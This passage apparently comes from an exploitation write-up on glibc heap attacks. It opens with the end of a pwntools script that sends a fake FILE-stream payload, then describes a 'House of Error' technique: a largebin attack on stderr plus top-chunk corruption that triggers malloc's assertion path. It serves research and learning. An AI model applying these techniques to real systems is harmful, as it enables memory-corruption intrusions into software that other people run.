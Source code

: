 ```python
fix_fs_chunk_size = 0x1e1 # we don't actually care so much.
exploit = fit({
    0x18: p64(fix_fs_chunk_size) + fs,
    0x160: final_fake_fs,
    0x200: fake_fs
})

io.send(exploit)

io.interactive()
```

# House of Error
Finally I will demonstrate a new cool House that I crafted with those primitives and its quite minimalistic in the requirements we need inorder to perform it. We only need a libc leak, a heap overflow bug and a little bit control over the heap.

I would not say it's a radically new technique, actually it is quite similar to `House of Emma` and `House of Kiwi` but it has less requirements for executing it and it is based on different primitives.

The basic idea of the technique is to execute `_IO_mem_sync` from a controlable fake FILE stream and perform the same trick as we did for the PoC #2.

We can easily craft fake FILE streams into the heap and as we saw in PoC #2 we do not need a heap leak also to reference our fake FILE streams. But the difference here is that we do not have the ability to corrupt or control a FILE stream because there is no open FILE stream on the heap to overflow.

Inorder to trigger a crafted fake FILE stream on the heap we will need to perform a largebin attack targeting `stderr` pointer (and not `_IO_2_1_stderr_`). After performing our largebin attack against `stderr` we want to trigger any malloc assertion in our program. In our PoC this is trivial we just need to corrupt the size field of the top chunk on the heap.

Before diving to the actual attack I've to highlight a drawback in our approach. `stderr` is a good target to force glibc processing a crafted fake FILE stream of our choice upon a malloc assertion but it requires to know where is located in memory. In our PoC it is actually located in the glibc so we do not need any leaks. But if is being used in the program that we are targeting  then `stderr` will be mapped in the data section of the program. Which then will require either a PIE leak or the program to be compiled without PIE protection enabled.

```c
static void
__malloc_assert (const char *assertion, const char *file, unsigned int line,
		 const char *function)
{
  (void) __fxprintf (NULL, "%s%s%s:%u: %s%sAssertion `%s' failed.\n",
		     __progname, __progname[0] ? ": " : "",
		     file, line,
		     function ? function : "", function ? ": " : "",
		     assertion);
  fflush (stderr);
  abort ();
}
```
